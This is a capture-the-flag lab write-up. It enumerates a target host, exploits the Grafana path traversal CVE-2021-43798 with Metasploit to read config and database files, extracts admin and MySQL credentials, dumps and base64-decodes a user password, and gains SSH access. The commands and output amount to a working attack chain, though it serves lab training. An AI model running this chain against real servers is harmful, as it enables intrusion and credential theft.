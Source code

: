 ## Enumeration

```
$ nmap 10.10.11.183 -T4 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-23 08:47 PST
Nmap scan report for 10.10.11.183
Host is up (0.079s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 45.04 seconds
```

- In `http://10.10.11.183`, we found a username `developer` but no password provided.
- In `http://10.10.11.183:3000`, there is a `grafana` portal with version `8.2.0`.

## Grafana

- After googling, we knew that Grafana versions 8.0.0-beta1 through 8.3.0 prior to 8.0.7, 8.1.8, 
  8.2.7, or 8.3.1 are vulnerable to directory traversal, `CVE-2021-43798`.

- Using metasploit `scanner/http/grafana_plugin_traversal`, we can download the file on the machine. The file would be saved in `~/.msf4/loot/`.

```
msf6 auxiliary(scanner/http/grafana_plugin_traversal) > run

[+] Detected vulnerable Grafina: 8.2.0
[*] 10.10.11.183 - Progress   0/40 (0.0%)
[+] alertlist was found and exploited successfully
[+] 10.10.11.183:3000 - File saved in: /home/parallels/.msf4/loot/20221223090532_default_10.10.11.183_grafana.loot_867160.ini
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

- We downloaded `/etc/grafana/grafana.ini` and got `admin_password = messageInABottle685427`.
- Then, we logged in to grafana with credential `admin:messageInABottle685427`

- In the `http://10.10.11.183:3000/admin/settings`, we found the database setting with some interesting info.
  - `host	127.0.0.1:3306`, this is the mysql that we have enumerated
  - `name	grafana`
  - `path	grafana.db`
  - `type	sqlite3`
  - `user	root`

- Then, we use metasploit to fetch `/var/lib/grafana.db`. We can open it on `SQLite database browser`.
- In `data_source` table, we get mysql credential `grafana:dontStandSoCloseToMe63221!`

## MySQL

```
$ mysql -u grafana -h 10.10.11.183 -p

MySQL [none]> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (18.664 sec)

MySQL [none]> use whackywidget;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [whackywidget]> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.093 sec)

MySQL [whackywidget]> select * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0.082 sec)

```

```
echo "YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==" | base64 -d
anEnglishManInNewYork027468
```

- Running base64 decode, and then we got `developer:anEnglishManInNewYork027468`
- We can use this credential to access ssh.